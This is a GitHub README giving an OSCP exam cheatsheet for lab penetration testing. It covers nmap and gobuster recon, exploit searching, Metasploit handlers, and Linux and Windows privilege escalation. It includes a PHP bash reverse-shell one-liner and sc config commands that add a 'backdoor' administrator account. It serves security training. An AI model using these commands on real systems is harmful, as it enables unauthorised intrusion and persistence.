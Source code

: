 # OSCP
OSCP Exam Cheatsheet.

# Index

- [Recon](#recon) 
- [Preparation](#preparation) 

### RECON

Nmap port scans:
(NOTE: Heavy scanning may result in ports being filtered/closed - wait <15 minutes to be unbanned)
```bash
$ nmap 10.11.1.71 --top-ports 20 --open	# Top 20 TCP ports scan on initial box
$ nmap 10.11.1.71 -p- -sV		# Complete TCP port scan + service banner grab on each box:
```

For each service, check available Nmap scripts:
```bash
$ ls -l /usr/share/nmap/scripts/*ssh*
```

NSE script tests:
```bash
$ nmap -v -p 139,445 --script=smb-vuln-ms17-010.nse --script-args=unsafe=1 10.11.1.31
```

Linux SMB Enum
```bash
$ enum4linux [ target_ip ]	# Enumerate Windows / Samba (SMB) hosts.
```

!! FOLLOW A PROCESS !!

### RECON - WEBAPP

Scripts:
```bash
$ curl -i -L 10.11.1.71 						  # Follow re-directs
$ curl 10.11.1.71 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//' # Internal/external links
$ gobuster -u http://10.11.1.71/ \					  # Directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/common.txt \
	   -s '200,204,301,302,307,403,500' -e
$ gobuster -u http://10.11.1.71/cgi-bin/ \				  # 2nd directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/cgis.txt \
	   -s '200,204,403,500' -e
```

Other things to check:
* robots.txt
* social media
* source code (if app is based on open-source code)

Re-evaluate attack surface:
* Any new findings to add to our list of attack vectors?

### FIND VULNS + EXPLOIT CODE

Tools:
```bash
# Nikto webapp scanner:
$ nikto -host 10.11.1.71

# Searchsploit (exploit-db):
$ searchsploit [options] [search_term1] [search_term2] . . . [search_termN]

# Nmap Scripting ENgine
$ ls -l /usr/share/nmap/scripts/*service_name*

```

Other areas to find exploit code:
* Google Shellshock POC
* Google one-liners from github

If no good attack vectors / exploit can be found, try a different or more comprehensive wordlist for subdirectory brute-forcing or use a webapp scanner to poke harder at the system.

### USING EXPLOIT CODE

Using the public exploit you found + Metasploit Multi-Handler, you can establish a Meterpreter session with the target.

Metasploit Handler usage w/ public exploit:
```bash
$ msf > use exploit/multi/handler
$ msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
```

Meterpreter sometimes doesn't work.
Go back to using `nc -nvlp 80` and trigger reverse shell in vulnerable app/service.

Reverse Shell:
* http://blog.safebuff.com/2016/06/19/Reverse-shell-Cheat-Sheet/
* `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");`


### PRIVILEGE ESCALATION

Get a proper shell: https://netsec.ws/?p=337
```bash
# This shell mostly works
python -c 'import pty; pty.spawn("/bin/sh")'
```

General privesc guide:
* https://www.reddit.com/r/oscp/comments/9ystub/i_absolutely_suck_at_privilege_escalation/?st=JOQAMPYP&sh=8899be73

Linux privesc:
* https://github.com/ankh2054/linux-pentest/blob/master/linuxprivchecker.py (automated - suggests exploits)
* https://github.com/rebootuser/LinEnum (automated)
* https://tools.kali.org/vulnerability-analysis/unix-privesc-check (automated - Kali)
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ (manual)

Windows privesc:
* Automated scanner: https://github.com/azmatt/windowsEnum (automated)
* http://www.exumbraops.com/penetration-testing-102-windows-privilege-escalation-cheatsheet/ (manual)
* http://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html
* https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md
* Accesschk.exe: http://www.fuzzysecurity.com/tutorials/16.html
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

Quick Wins:
```bash
# THIS HAS WORKED BEFORE: Due to misconfiguration in /etc/sudoers
$ sudo su	# execute su as root
$ su root	# become root
```

Linux Privesc:
```bash
# OS? Version? Architecture?
$ cat /etc/*-release
$ uname -i
$ lsb_release -a (Debian)
 
# Who are we? Where are we? What are our sudo privileges?
$ id
$ pwd
$ sudo -l
 
# Other users? Which ones have a valid shell?
$ cat /etc/passwd
$ grep -vE "nologin|false" /etc/passwd
 
# Services running on the box? Network services running?
ps aux
netstat -antup
 
# Whats installed? Kernel?
dpkg -l (Debian)
rpm -qa (CentOS / openSUSE)
uname -a
```

Windows Privesc:
```powershell
# Vulnerable services
sc qc <vulnerable service name>
sc config <vuln-service> binpath= "net user backdoor backdoor123 /add" 
sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add" 

sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
net start <vulnerable-service>
```

Metasploit Auxiliry Modules:
```
$ use auxiliary/scanner/http/dir_scanner		# HTTP directory scanner
$ use auxiliary/scanner/http/jboss_vulnscan	# JBOSS vulnerability scanner
$ use auxiliary/scanner/mssql/mssql_login	# MSSQL Login Module
$ use auxiliary/scanner/mysql/mysql_version	# MSSQL Version Scanner
$ use auxiliary/scanner/oracle/oracle_login	# Oracle Login Module
```

### EXPLOITS - USING / COMPILING

Compilation tips:
* `./exploit` results in errors: compile in the host itself, Kali box or another machine.

Compilation commands:
```bash
# Linux
$ gcc -m32 -Wl,--hash-style=both exploit.c -o exploit

# Windows (cross-compile) and run
$ i686-w64-mingw32-gcc 25912.c -o exploit.exe -lws2_32
$ wine exploit.exe
```


